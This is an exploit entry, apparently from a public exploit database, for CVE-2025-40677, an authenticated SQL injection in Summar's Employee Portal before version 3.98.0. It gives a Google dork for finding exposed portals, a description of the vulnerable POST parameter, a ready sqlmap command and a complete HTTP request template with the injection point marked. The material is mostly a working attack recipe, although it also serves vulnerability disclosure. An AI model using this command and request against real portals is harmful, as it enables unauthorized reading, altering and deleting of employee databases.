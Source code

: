 # Exploit Title: Summar Employee Portal Prior to 3.98.0 Authenticated SQL Injection - CVE-2025-40677
# Google Dork: inurl:"/MemberPages/quienesquien.aspx"
# Date: 09/22/2025
# Exploit Author: Peter Gabaldon - https://pgj11.com/
# Vendor Homepage: https://www.summar.es/
# Software Link: https://www.summar.es/software-recursos-humanos/
# Version: < 3.98.0
# Tested on: Kali
# CVE : CVE-2025-40677
# Description: SQL injection vulnerability in Summar Software´s Portal del Empleado. This vulnerability allows an attacker to retrieve, create, update, and delete the database by sending a POST request using the parameter “ctl00$ContentPlaceHolder1$filtroNombre” in “/MemberPages/quienesquien.aspx”.

```
$ sqlmap --random-agent -r req.sqli.xml -p 'ctl00%24ContentPlaceHolder1%24filtroNombre' --dbms="MSSQL"

POST /MemberPages/quienesquien.aspx HTTP/1.1
Host: [REDACTED]
Cookie: [REDACTED]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
X-Microsoftajax: Delta=true
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: keep-alive
 
ctl00%24ScriptManager1=ctl00%24ScriptManager1%7Cctl00%24ContentPlaceHolder1%24lnkVerTrabajador&ctl00%24ContentPlaceHolder1%24filtroNombre=[SQL_INJECTION_POINT]&ctl00%24ContentPlaceHolder1%24ddlEmpresa=&ctl00%24ContentPlaceHolder1%24filtroCentro=&ctl00%24ContentPlaceHolder1%24filtroUO=&ctl00%24ContentPlaceHolder1%24filtroPuesto=&__EVENTTARGET=ctl00%24ContentPlaceHolder1%24lnkVerTrabajador&__EVENTARGUMENT=&__LASTFOCUS=&__VIEWSTATE=...&__VIEWSTATEGENERATOR=...&__ASYNCPOST=true&
```
